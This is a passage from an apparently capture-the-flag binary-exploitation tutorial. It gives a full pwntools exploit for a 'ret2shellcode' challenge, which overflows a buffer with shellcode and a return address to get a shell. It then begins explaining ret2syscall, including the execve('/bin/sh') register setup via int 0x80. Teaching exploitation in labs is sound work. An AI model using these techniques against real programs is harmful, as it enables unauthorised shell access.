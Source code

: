 `exploit` is as follows:

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## ret2syscall
### Principle
`ret2syscall`, that is, the control program execution system call to obtain `shell`.

System calls:
 - Programming interface provided by the operating system to users.
 - is an interface that provides access to the underlying hardware managed by the operating system.
 - Essentially some kernel function code that drives hardware in a standardized way.
 - `x86` makes system calls through the `int 0x80` instruction, `amd64` makes system calls through the `syscall` instruction`mov eax, 0xb mov ebx, ["/bin/sh"] mov ecx, 0 mov edx, 0 int 0x80 => execve("/bin/sh",NULL,NULL)`.

<div align=center><img src="./images/21.jpeg"></div>

